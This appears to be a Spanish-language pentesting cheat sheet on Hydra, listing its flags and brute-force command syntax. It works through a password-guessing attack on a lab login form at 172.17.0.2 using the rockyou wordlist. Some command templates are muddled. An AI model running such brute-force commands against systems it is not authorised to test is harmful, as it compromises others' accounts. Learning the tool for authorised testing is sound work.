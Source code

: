 # Hydra

<figure><img src="../../.gitbook/assets/image (5).png" alt="" width="384"><figcaption></figcaption></figure>

## Introducción

Hydra es una herramienta para ataques de fuerza bruta.

## Comandos

Comandos Basicos:

```bash
hydra -l HOST -p PASSWORD IP SERVICE
```

Comando elaborado:

```bash
hydra -l HOST -P PASSWORD.txt SERVER SERVICE IP protocolo -t 64 -o Hydraseña.txt
```

## Flags

`-l`: Username

`-p`: Password

`-L`: Username list

`-P`: Password list

`-t`: Aumentar la velocidad del craqueo

`-o`: Para sacarlo a un archivo

`-V`: Verbose

`-d`: Modo debug, muestra todo el proceso

Su sesión de Hydra podría sufrir interrupciones por razones inesperadas. No se preocupe; Hydra cuenta con una función de reanudación integrada que se puede llamar con la opción `-R`:

```bash
hydra -R
```

## Fuerza bruta panel de login

Para poder realizar este ataque hay que indicarle a _hydra_ el método de envió, la ruta donde encontrar el panel de login, los campos para el payload y el mensaje de error que aparece al realizar un inicio de sesión incorrecto. ([Video](https://www.youtube.com/watch?v=XAlcVyx5FMA))

* Método -> POST
* Ruta -> /login.php
* Campos -> username=medusa\&password=`^PASS^`
* Mensaje de error -> Invalid credentials

```bash
hydra -l medusa -P /usr/share/wordlists/rockyou.txt 172.17.0.2 -t 64 http-post-form "/login.php:user=medusa&password=^PASS^:Invalid credentials"
```

Con ^PASS^ indicamos el campo donde queremos que ejecute el payload

## Documentación

* [Hydra oficial](https://github.com/vanhauser-thc/thc-hydra)
* [Hydra Kali](https://www.kali.org/tools/hydra/)
